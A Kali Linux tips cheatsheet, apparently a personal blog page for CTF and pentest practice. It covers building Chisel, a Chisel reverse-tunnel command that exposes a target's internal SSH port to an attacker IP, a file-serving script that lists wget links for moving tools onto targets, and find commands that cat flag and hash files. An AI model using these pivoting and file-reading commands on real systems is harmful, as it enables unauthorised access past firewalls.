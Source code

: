 ```yaml
---
title: "Kali Tricks"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - Linux
tags:
  - cheatsheet
  - kali
---
```



## Sections

### Kali
* [Tips and Tricks](#tips-and-tricks)
* [Install Apps Universally](#install-apps-universally)
* [Find Command](#)

### Kali app updates
* [Metasploit update](#metasploit)



## Tips and Tricks
### Chisel Quick guide

<details>
  <summary>Chisel Info - Click here</summary>
  
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

</details>

Install Chisel
* cd to /opt
```console
cd /opt
```
* clone the repo
```console
git clone https://github.com/jpillora/chisel.git
```
* cd to the cloned repo
```console
cd chisel
```
sync go vendor modules, seems to be needed to build for windows
```console
go mod vendor
```
build Linux binary:
```console
go build -ldflags "-s -w"
```
build Windows binary
```console
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
```
  
Usage: [Chisel Github](https://github.com/jpillora/chisel)

(*upload chisel to the attacking machine)    

Use chisel to reverse connect back to the other hidden localhost port for ssh 22 using port 9001

```console
$ ./chisel server -p 9001 --reverse

$ ./chisel client 10.8.0.116:9001 R:127.0.0.1:9002:172.17.0.1:22
# ./chisel client YOUR-IP-HERE:9001 R:127.0.0.1:9002:ATTACKER-MACHINE-IP:22
```

### Install apps universally

[Github Python and Bash](https://github.com/AssassinUKG/pythonSimpleServer) 
To make an application or script available system-wide,
you usually copy them to /usr/local/bin

**Example:** If we want to get our IP address,
List files and then start a python http server to serve the files.
We can!

1. Make a script (or get an App you want), I've called my script: pss.sh (python start server.sh)
Script Details:-
- Select IP if more then 1 interface (eth0, tun0)
- List files in directory with wget links and your current IP
- Shows all files in the current directory

```bash
#!/bin/bash

GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

echo -e "\n$CYAN""Python FileServer$RES"
echo -e "Created By$GN Ac1d $RES\n"

HN="hostname -I"
res=$(eval $HN)
arrIN=(${res// / })
IP=""
echo "${arrIN[@]}"
if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which IP address?: '
        options=("Option 1: ${arrIN[0]}" "Option 2: ${arrIN[1]}" "Option 3: ${arrIN[2]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "Option 1: ${arrIN[0]}")
                        IP="${arrIN[0]}"
                        #echo "you chose choice 1"
                        break
                ;;

                "Option 2: ${arrIN[1]}")
                        IP="${arrIN[1]}"
                        #echo "you chose choice 2"
                        break
                ;;
                "Option 3: ${arrIN[2]}")
                        IP="${arrIN[2]}"
                        break
                ;;      
                "Quit")
                exit
                ;;
                *) echo "invalid option $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo "IP: "$IP
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget ${IP##*( )}/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo -e "\nCurrent Directory Contents"
ls --color $PWD
echo -e "\nStarting Server"
sudo python3 -m http.server 80  -d .

```

2. Give it the correct file permissions. 
```bash
$ chmod +x pss.sh
```

3. Then copy the file/script to /usr/local/bin 
```bash
$ cp pss.sh /usr/local/bin/
```

4. Call your file from anywhere 
```bash
$ pss.sh
```

5. Test your new tools and scripts out from any directory. 
![](/assets/images/pss.png)

Image for choice selection.
![](/assets/images/pss2.png)


## Find Command

Find files called hash and execute cat command on any found files
```
find / -type f -name hash -exec cat {} \; 2>/dev/null | grep "$"
```

Find all files called root.txt and user.txt then cat the contents out
```
find / -type f  \( -name root.txt -o -name user.txt \) -exec cat {} \; 2>/dev/null 
```



## Kali app updates
### Metasploit
Remove old metasploit 
```console
sudo apt remove metasploit-framework -y
```
Install new version, Run 'msfconsole' after install
```console
sudo curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```





